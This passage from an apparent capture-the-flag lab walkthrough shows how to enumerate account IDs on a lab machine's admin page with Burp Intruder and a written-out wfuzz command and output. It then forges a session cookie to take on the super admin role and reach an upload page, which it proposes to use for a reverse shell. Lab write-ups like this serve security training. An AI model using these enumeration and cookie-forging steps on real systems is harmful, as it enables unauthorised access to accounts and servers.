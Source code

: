 Click on "Start attack".
A new window appears. To understand if we have a different result than empty one, we can check the "Length" value, if it is different from "3787". For each of the interesting results, we can click on "Response" -> "Render" tab and see the result in the embedded window. We can check also directly on the "Response" body.

Another option is to use `wfuzz` tool:
* wfuzz
    - Install: `sudo apt-get install wfuzz`
    - Usage: `wfuzz -c -z range,0-50 --hh 3595 -b role=admin -b user=34322 -u "http://10.10.10.28/cdn-cgi/login/admin.php?id=FUZZ&content=accounts"` (--hh 3595 means we hide the output containing 3595 that here corresponds to the size (number of chars) of the output, that are those responses with no account values)

The result of `wfuzz` is:
```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.28/cdn-cgi/login/admin.php?id=FUZZ&content=accounts
Total requests: 51

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================

000000005:   200        160 L    321 W      3619 Ch     "4"            
000000002:   200        160 L    321 W      3623 Ch     "1"            
000000024:   200        160 L    321 W      3620 Ch     "23"           
000000014:   200        160 L    321 W      3621 Ch     "13"           
000000031:   200        160 L    322 W      3634 Ch     "30"           

Total time: 0
Processed Requests: 51
Filtered Requests: 46
Requests/sec.: 0
```

Analyzing all these results, we find out that the `id=30` is related to "super admin" user that is associated with 86575 value that seems a a format used on "cookie" value in our requests.

At this point, by enabling the intercept on Burp, click on "Uploads" tab on website, go back to Burp -> "Proxy" -> "Intercept" and change the "user" value of "Cookie" as "86575" and click "Forward.
If you want to avoid to inject each time this value in "name" and want to keep this cookie persistent for your session, open the Developer tools of your browser (by pressing F12), i.e. Firefox -> Storage -> under "Cookies" section click on "http://10.10.10.28", change "user" value with "86575". Click again on "Uploads" button of the webpage (remember to remove the "Intercept" by Burp).

Phase 2: Foothold
--
We gained access to the "Uploads" section. If the upload feature does not check for input files (for example don't implement user input validation), we can use it for uploading malicious files, i.e. reverse shell.

